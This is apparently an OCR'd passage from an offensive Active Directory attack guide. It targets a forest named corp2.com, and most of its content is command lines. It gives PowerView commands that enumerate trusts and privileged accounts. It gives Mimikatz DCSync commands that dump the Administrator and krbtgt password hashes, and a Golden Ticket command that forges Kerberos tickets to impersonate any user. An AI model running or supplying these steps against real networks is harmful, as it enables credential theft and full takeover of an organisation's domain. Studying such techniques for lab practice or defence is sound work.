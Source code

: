 ### 2. **Initial Enumeration of the Target Forest (corp2.com)**

#### PowerView Commands to Enumerate Trust and Resources

- **List the trust relationship between the domains:**
  ```powershell
  Get-NetDomainTrust -Domain corp2.com
  ```
- **Enumerate high-value accounts in the target forest:**
  ```powershell
  Get-NetGroup -Domain corp2.com -GroupName "Domain Admins"
  ```
- **Identify sensitive accounts or users to target:**
  ```powershell
  Get-DomainUser -AdminCount 1 -Domain corp2.com
  ```

### 3. **DCSync Attack to Dump Target Domain Hashes**

With your privileges, you can perform a DCSync attack using Mimikatz to replicate the credentials from `corp2.com`. This method abuses the Directory Replication Service (DRS) to pull the password hashes of users, including privileged accounts.

#### Mimikatz DCSync (Dump Hashes from corp2.com Domain Controller)
- **DCSync to dump NTLM password hashes for all users:**
  ```powershell
  mimikatz.exe
  privilege::debug
  lsadump::dcsync /domain:corp2.com /user:Administrator
  ```
  - This command will allow you to replicate the hash of the `Administrator` account from `corp2.com`.

- **DCSync to extract hashes for a specific user (e.g., Domain Admin in corp2.com):**
  ```powershell
  lsadump::dcsync /domain:corp2.com /user:target_user
  ```

- **DCSync to dump the krbtgt hash (critical for Golden Ticket attacks):**
  ```powershell
  lsadump::dcsync /domain:corp2.com /user:krbtgt
  ```

### 4. **Compromise of the Target Forest Using Stolen Credentials**

After obtaining the `krbtgt` hash from the target domain `corp2.com`, you can generate a **Golden Ticket** to impersonate any user in the target domain.

#### Mimikatz Golden Ticket Attack
- **Generate a Golden Ticket using the krbtgt hash:**
  ```powershell
  mimikatz.exe
  kerberos::golden /user:Administrator /domain:corp2.com /sid:S-1-5-21-... /krbtgt:<krbtgt_hash> /id:500
  ```
  - Replace the SID with the domain SID for `corp2.com`.
